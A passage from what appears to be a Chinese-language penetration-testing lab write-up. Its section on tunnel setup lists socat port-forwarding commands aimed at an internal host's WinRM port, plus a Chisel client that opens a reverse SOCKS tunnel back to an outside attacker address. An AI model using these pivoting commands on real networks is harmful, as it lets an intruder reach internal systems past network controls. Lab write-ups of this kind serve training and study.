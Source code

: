 [![](assets/1699929055-342b84cc617782ac02ea928d01de3d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104235-4d5c3a68-81ce-1.png)

## 隧道搭建

上传Chisel，然后搭建隧道。

[![](assets/1699929055-81f988c6deb293405ac58be0b0dc7d5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104249-55d0a940-81ce-1.png)

```plain
./socat tcp-listen:60218,reuseaddr,fork tcp:192.168.122.228:5985 &
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
./chisel_1.9.1_linux_amd64 client 10.10.14.39:8001 R:socks
./socat tcp-listen:55555,reuseaddr,fork tcp:192.168.122.228:5985
socat tcp-listen:5985,reuseaddr,fork tcp:10.10.16.5:55555
```
